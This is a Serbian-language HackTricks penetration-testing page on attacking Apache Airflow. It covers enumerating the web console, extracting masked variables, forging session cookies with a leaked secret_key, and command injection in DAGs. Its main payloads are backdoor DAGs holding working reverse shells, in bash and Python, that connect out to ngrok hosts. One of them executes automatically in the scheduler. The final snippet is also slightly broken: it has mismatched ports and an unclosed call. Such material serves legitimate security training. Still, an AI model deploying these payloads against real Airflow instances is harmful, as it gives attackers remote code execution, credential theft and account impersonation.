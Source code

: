 # Apache Airflow Security

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Basic Information

[**Apache Airflow**](https://airflow.apache.org) služi kao platforma za **orchestraciju i zakazivanje podataka ili radnih tokova**. Termin "orchestracija" u kontekstu podataka označava proces organizovanja, koordinacije i upravljanja složenim radnim tokovima podataka koji potiču iz različitih izvora. Primarna svrha ovih orkestriranih radnih tokova podataka je da obezbede obrađene i upotrebljive skupove podataka. Ovi skupovi podataka se široko koriste u mnogim aplikacijama, uključujući, ali ne ograničavajući se na alate za poslovnu inteligenciju, modele podataka i mašinskog učenja, koji su svi osnovni za funkcionisanje aplikacija velikih podataka.

U suštini, Apache Airflow će vam omogućiti da **zakazujete izvršenje koda kada se nešto** (događaj, cron) **dogodi**.

### Local Lab

#### Docker-Compose

Možete koristiti **docker-compose konfiguracioni fajl sa** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) da pokrenete kompletno apache airflow docker okruženje. (Ako ste na MacOS-u, obavezno dodelite najmanje 6GB RAM-a docker VM-u).

#### Minikube

Jedan jednostavan način da **pokrenete apache airflow** je da ga pokrenete **sa minikube**:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
### Airflow Konfiguracija

Airflow može čuvati **osetljive informacije** u svojoj konfiguraciji ili možete pronaći slabe konfiguracije:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

### Airflow RBAC

Pre nego što počnete da napadate Airflow, trebali biste razumeti **kako funkcionišu dozvole**:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

### Napadi

#### Web Konzola Enumeracija

Ako imate **pristup web konzoli**, možda ćete moći da pristupite nekim ili svim sledećim informacijama:

* **Varijable** (Prilagođene osetljive informacije mogu biti sačuvane ovde)
* **Konekcije** (Prilagođene osetljive informacije mogu biti sačuvane ovde)
* Pristupite im na `http://<airflow>/connection/list/`
* [**Konfiguracija**](./#airflow-configuration) (Osetljive informacije kao što su **`secret_key`** i lozinke mogu biti sačuvane ovde)
* Lista **korisnika i uloga**
* **Kod svakog DAG-a** (koji može sadržati zanimljive informacije)

#### Preuzimanje Vrednosti Varijabli

Varijable se mogu čuvati u Airflow-u tako da **DAG-ovi** mogu **pristupiti** njihovim vrednostima. Slično je tajnama drugih platformi. Ako imate **dovoljno dozvola**, možete im pristupiti u GUI-u na `http://<airflow>/variable/list/`.\
Airflow po defaultu prikazuje vrednost varijable u GUI-u, međutim, prema [**ovome**](https://marclamberti.com/blog/variables-with-apache-airflow/), moguće je postaviti **listu varijabli** čija će **vrednost** biti prikazana kao **zvezdice** u **GUI-u**.

![](<../../.gitbook/assets/image (164).png>)

Međutim, ove **vrednosti** se i dalje mogu **preuzeti** putem **CLI** (morate imati pristup bazi podataka), **izvršavanjem proizvoljnog DAG-a**, **API** pristupom tački varijabli (API mora biti aktiviran), i **čak i samim GUI-em!**\
Da biste pristupili tim vrednostima iz GUI-a, jednostavno **izaberite varijable** kojima želite da pristupite i **kliknite na Akcije -> Izvezi**.\
Drugi način je da izvršite **bruteforce** na **skrivenoj vrednosti** koristeći **filtriranje pretrage** dok je ne dobijete:

![](<../../.gitbook/assets/image (152).png>)

#### Eskalacija Privilegija

Ako je konfiguracija **`expose_config`** postavljena na **True**, iz **uloge Korisnik** i **naviše** mogu **čitati** **konfiguraciju na web-u**. U ovoj konfiguraciji se pojavljuje **`secret_key`**, što znači da svaki korisnik sa ovim važećim može **napraviti svoj potpisani kolačić da bi se pretvarao da je bilo koji drugi korisnički nalog**.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
#### DAG Backdoor (RCE u Airflow radniku)

Ako imate **pristup za pisanje** na mestu gde se **DAG-ovi čuvaju**, možete jednostavno **napraviti jedan** koji će vam poslati **obrnuti shell.**\
Imajte na umu da će ovaj obrnuti shell biti izvršen unutar **airflow radničkog kontejnera**:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
#### DAG Backdoor (RCE u Airflow scheduler-u)

Ako postavite nešto da bude **izvršeno u korenu koda**, u trenutku pisanja ovog teksta, biće **izvršeno od strane scheduler-a** nakon nekoliko sekundi nakon što ga stavite unutar DAG-ove fascikle.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
#### Kreiranje DAG-a

Ako uspete da **kompromitujete mašinu unutar DAG klastera**, možete kreirati nove **DAG skripte** u `dags/` folderu i one će biti **replicirane na ostalim mašinama** unutar DAG klastera.

#### Injekcija koda u DAG

Kada izvršavate DAG iz GUI-a, možete **proslediti argumente**.\
Stoga, ako DAG nije pravilno kodiran, mogao bi biti **ranjiv na Injekciju Komandi.**\
To se desilo u ovom CVE: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

Sve što treba da znate da **počnete da tražite injekcije komandi u DAG-ovima** je da se **parametri** **pristupaju** sa kodom **`dag_run.conf.get("param_name")`**.

Štaviše, ista ranjivost može se javiti sa **varijablama** (imajte na umu da sa dovoljno privilegija možete **kontrolisati vrednost varijabli** u GUI-u). Varijable se **pristupaju sa**:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
Ako se koriste, na primer, unutar bash komande, mogli biste izvršiti injekciju komande.

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
